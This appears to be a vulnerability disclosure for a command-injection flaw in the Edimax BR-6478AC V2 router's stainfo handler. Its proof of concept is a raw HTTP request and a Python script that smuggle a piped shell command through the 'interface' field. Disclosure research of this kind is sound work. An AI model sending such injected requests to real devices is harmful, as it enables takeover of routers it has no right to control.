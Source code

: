 ## Firmware download

You can download BR-6478AC V2 from [here](https://www.edimax.com/edimax/download/download/data/edimax/global/download/wireless_routers_ac1200/br-6478ac_v2).

## Analyze

The ```stainfo``` function in ```/bin/webs``` can receive the command parameter and execute it using ```system```function.

![fig1](.\image\4.png)

Using ```FirmAE``` to simulate firmware, capture packets with ```BurpSuite```, and  modify the ```interface``` parameter, successfully create the file  ```vuln.txt``` in the root directory.

![](.\image\5.png)

## POC

burpsuite packet.

```shell
POST /goform/stainfo HTTP/1.1
Host: 192.168.2.1
Content-Length: 83
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.2.1
Referer: http://192.168.2.1/probe.asp
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

interface=ens33%20show%20stainfo%20%7C%20touch%20%2Fvuln.txt%20%7C%20iwpriv%20ens33
```

python script

```python
import requests

url = "http://192.168.2.1/goform/stainfo"

payload = {
    "interface": "ens33 show stainfo | echo hacker > /vuln.txt | iwpriv ens33"
}

r = requests.post(url, data=payload)
print(r.status_code)

```



